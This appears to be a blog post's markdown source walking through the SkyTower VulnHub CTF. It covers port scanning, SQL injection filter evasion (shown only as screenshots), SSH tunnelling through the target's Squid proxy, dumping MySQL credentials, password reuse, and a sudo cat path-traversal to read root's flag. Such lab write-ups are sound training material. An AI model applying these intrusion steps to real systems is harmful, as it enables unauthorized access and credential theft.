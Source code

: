 ```yaml
---
layout: blog_item
title:  "SkyTower - Walkthrough"
date:   2015-07-20 15:00:60
author: Arr0way
description: 'SkyTower 1, a VulnHub CTF Walkthrough Guide'
categories: [walkthroughs]
tags:
- CTF
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Coffee Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

This CTF was designed by Telspace Systems for the CTF at the ITWeb Security Summit and BSidesCPT (Cape Town). The aim is to test intermediate to advanced security enthusiasts in their ability to attack a system using a multi-faceted approach and obtain the "flag".

You will require skills across different facets of system and application vulnerabilities, as well as an understanding of various services and how to attack them. Most of all, your logical thinking and methodical approach to penetration testing will come into play to allow you to successfully attack this system. Try different variations and approaches. You will most likely find that automated tools will not assist you.

**Author:** Telspace Systems

**Download:** [VulnHub](https://www.vulnhub.com)

## Enumeration

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 10.0.1.114

{% endhighlight %}


### Host Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
               <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.22 ((Debian))</p></pc>
           </td>
        </tr>

        <td>
            <pc><p><code>TCP: 3128</code></p></pc>
        </td>
        <td>
            <pc><p>http-proxy</p></pc>
        </td>
        <td>
            <pc><p>Squid http proxy 3.1.20</p></pc>
        </td>
     </tr>

      </tbody>

</table>
</div>


## Web Application Analysis

The basic test below indicated the web application could be vulnerable to SQL injection.


![SQLi Test](/img/blog/skytower/sqli-test.png)

[SQL Injection](/penetration-testing/web-app/sql-injection/) looked possible + DB identified as MySQL:

![MySQL error](/img/blog/skytower/sqli-error.png)

Enumeration indicated the web application was filtering the SQLi attempts and removing some characters, such as <code>OR</code>. This was overcome (after researching for SQLi filtering evasion) using the following:

![Burp SQLi Evasion](/img/blog/skytower/burp-sqli-evasion.png)

With no direct access to SSH the above credentials could not be leveraged to gain a Shell.

## HTTP Proxy SSH Connection

The following was used to gain access to the SSH server by proxying the connection through the open **SQUID** server on the target machine.

Setup tunnel with proxytunnel:

{% highlight bash %}

[root:~]# proxytunnel -p 10.0.1.114:3128 -d 127.0.0.1:22 -a 4444

{% endhighlight %}

SSH through the HTTP tunnel:

{% highlight bash %}
[root:~]# ssh john@127.0.0.1 -p 4444  "/bin/sh"
john@127.0.0.1's password:

id
uid=1000(john) gid=1000(john) groups=1000(john)
{% endhighlight %}

<code>/bin/sh</code> needed to be postfixed to the end of the SSH command, as the server appeared to kick connections upon connection.

## Local Enumeration

Enumeration as the user John discovered the MySQL root credentials:

{% highlight bash %}

$ cat login.php
<?php

$db = new mysqli('localhost', 'root', 'root', 'SkyTech');

{% endhighlight %}

## MySQL Credentials

The following process was used to disclosed the users credentials:

{% highlight bash %}
$ mysql -u root -p
Enter password: root
show databases;


\q
Database
information_schema
SkyTech
mysql
performance_schema
$ mysql -u root -p SkyTech
Enter password: root
show tables;
\q
Tables_in_SkyTech
login



mysql -u root -p SkyTech
Enter password: rootroot
ERROR 1045 (28000): Access denied for user 'root'@'localhost' (using password: YES)
mysql -u root -p SkyTech
Enter password: root
select * from login;
\q
id    email    password
1    john@skytech.com    hereisjohn
2    sara@skytech.com    ihatethisjob
3    william@skytech.com    senseable
{% endhighlight %}

## Privilege Escalation - Password Reuse

Password reuse for the user <code>sara</code> was possible using the previously discovered credentials.

{% highlight bash %}

[root:~]# ssh sara@127.0.0.1 -p 4444 -t  "/bin/sh"
sara@127.0.0.1's password:
$ sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
{% endhighlight %}

The user **sara** had sudo access to the binary <code>/bin/cat</code>, path traversal was used to cat the contents of <code>/root/flag.txt</code> which contained the root password.

{% highlight bash %}

$ sudo /bin/cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
$

{% endhighlight %}

### Getting root:

With the previously discovered credentials it was possible to <code>su -</code> to root:

{% highlight bash %}

$ su -
Password:
root@SkyTower:~# id
uid=0(root) gid=0(root) groups=0(root)
root@SkyTower:~# cat flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
root@SkyTower:~#

{% endhighlight %}

## Conclusion

I enjoyed the SQL injection filtering evasion, overall a short CTF that can easily be done in an evening.    

Thanks for the VM :)
